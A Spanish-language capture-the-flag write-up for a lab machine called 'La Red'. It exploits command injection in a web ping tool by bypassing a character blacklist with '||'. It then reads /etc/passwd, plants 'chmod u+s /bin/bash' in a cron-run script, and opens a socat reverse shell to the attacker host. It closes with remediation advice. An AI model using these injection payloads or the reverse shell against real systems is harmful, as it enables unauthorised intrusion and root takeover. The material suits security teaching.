





# >_ [La Red]

| Propiedad | Detalle |
| :--- | :--- |
| **Plataforma** | Whoami Labs |
| **Dificultad** | 🟡 Media  |
| **OS** | Linux  |
| **IP de la Máquina** | `172.17.0.2` |
| **Fecha de resolución** | 2026-10-22 |

---

## 📝 Descripción
Máquina enfocada en la explotación de un servicio web vulnerable y posterior escalada de privilegios mediante abuso de tareas cron.

---

## 🔍 1. Fase de Reconocimiento y Enumeración

Comenzamos realizando un ping a la máquina y vemos que es un Linux

<br><br>

### Escaneo de Puertos (`nmap`)
Lanzamos un escaneo inicial para identificar los puertos abiertos y los servicios activos en la máquina objetivo:

```bash
 sudo nmap -p- --open -n -Pn 172.17.0.2 -oN allPorts
```

**Resultados del escaneo:**
* **Puerto 80/TCP**: HTTP



<br>

### Enumeración de servicios
Continuamos con un escaneo más profundo del servicio encontrado:

```bash
nmap -p80 -sCV -n 172.17.0.2 -oN targeted
```



<br>

Tenemos una página web creada con PHP 8.2.32, es una versión bastante reciente.


### Enumeración Web (Puerto 80)

Al inspeccionar el sitio web, nos encontramos con una página web llamada La Red, contiene una herramienta de diagnóstico en la que nos pide una dirección IP para ejecutar un ping desde el servidor.



<br>

Probamos a hacernos ping a nosotros mismos y funciona.


<br>

Ahora vamos a probar a poner otro comando seguido para ver si nos lo ejecuta pero nos da error, nos dice que los caracteres no estan permitidos, así que no acepta el ;


<br><br>


Vamos a probar con diferentes operadores de shell para comprobar si podemos encadenar instrucciones, hasta que descubrimos que el || si nos lo acepta y podemos ver el resultado de un ls, por lo que es vulnerable a inyección de comandos.

<br><br>


---

## 💥 2. Fase de Explotación (Acceso Inicial)

Ya que podemos ejecutar comandos, vamos a leer el fichero index.php y vemos que tiene una lista negra con todos los caracteres que no permite: &,;,`,$,(,),{,}
La aplicación intenta filtrar determinados caracteres, pero no implementa una sanitización adecuada de la entrada y esto nos permite utilizar operadores no contemplados por la lista negra para alterar el comportamiento del comando.


<br><br>

Leemos el archivo /etc/passwd para identificar las cuentas que existen y localizar posibles usuarios de los que podamos aprovecharnos. Encontramos las cuentas del sistema y el usuario root.


<br><br>

Miramos que usuario somos y vemos que ahora mismo nosotros somos el usuario www-data y necesitamos pasar a ser root.

<br><br>


### Vector de Ataque

Tenemos dos opciones para escalar privilegios, una por la página web, aunque es un poco más incómodo y otra realizando una reverse shell y escalando por la terminal.


```bash
127.0.0. || find / -perm -4000 2>/dev/null
```

Vamos a analizar posibles vectores para escalar privilegios desde la herramienta de la página web, lanzamos un find perm pero no vemos nada útil.


<br><br>
Vamos a mirar a ver si tiene tareas cron.
El archivo /etc/crontab es el planificador de tareas global de Linux. Permite definir cuándo se ejecutan comandos automáticamente y bajo qué usuario.

<br><br>

El archivo /etc/crontab en Linux es un archivo de configuración que permite programar tareas automáticas del sistema para que se ejecuten en momentos específicos: cada hora, cada día, cada semana o cada mes.

<br><br>

Miramos que contiene ese fichero cleanup y también vamos a mirar que permisos tiene.


<br><br>

127.0.0. || echo "#!/bin/bash" > uploads/cleanup.sh
127.0.0. || chmod +x uploads/cleanup.sh 
127.0.0. || echo 'chmod u+s' >> uploads/cleanup.sh

127.0.0. || echo 'chmod u+s /bin/bash' >> uploads/cleanup.sh

Vamos a proceder a realizar una reverse shell para poder trabajar más comodamente.


### Intrusión (Reverse Shell)
Establecemos una *reverse shell* hacia nuestra máquina atacante:

```php
# Comando ejecutado en el navegador web
127.0.0. || socat TCP:172.17.0.1:440 exec:/bin/bash
```

<br><br>


Ponemos nuestro *netcat* a la escucha para recibir la conexión:
```bash
sudo nc -lvnp 440
```


<br><br>

Ya somos el usuario www-data desde una terminal, ahora podemos sanitizarla o continuar usandola tal y como está.

```bash
# Tratamiento de  la TTY para tener una consola interactiva cómoda
script /dev/null -c bash
# Ctrl+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
```


## 👑 3. Escalada de Privilegios

### Enumeración del Sistema

Revisamos las tareas cron

<br><br>

La variable PATH define los directorios donde el sistema busca los ejecutables cuando se introduce un comando sin especificar su ruta completa. Vemos que primero busca en la carpeta de uploads por lo que nos aprovecharemos de que podemos escribir dentro de esa carpeta y primero buscará ahi cleanup.


<br><br>

---

### Explotación del Vector de Escalada

Como ya le dimos permisos a la bash, ejecutamos /bin/bash -p para convertirnos en root.

<br><br>

¡Ya somos *root*! Buscamos el fichero que contiene la flag en la carpeta personal de root.


<br><br>

Por último, validamos la flag obtenida.


<br><br>

## 🧠 4. Conclusiones

Durante la resolución de esta máquina hemos identificado
una vulnerabilidad de ejecución de comandos en una
aplicación web que permite ejecutar instrucciones
arbitrarias en el sistema.

La explotación ha permitido obtener acceso inicial
con los privilegios del servicio web.

Posteriormente, mediante la enumeración de los permisos
del usuario y la identificación de configuraciones
inseguras, hemos conseguido escalar privilegios hasta root.

### Vulnerabilidades identificadas

- Command Injection en la herramienta de diagnóstico.
- Uso de una lista negra insuficiente para filtrar entradas.
- Configuración insegura de privilegios.

### Recomendaciones de seguridad

- Evitar construir comandos del sistema concatenando
  entradas proporcionadas por usuarios.
- Utilizar funciones nativas del lenguaje cuando sea posible.
- Aplicar validación mediante listas de valores permitidos.
- Revisar periódicamente los permisos sudo.
- Aplicar el principio de mínimo privilegio.
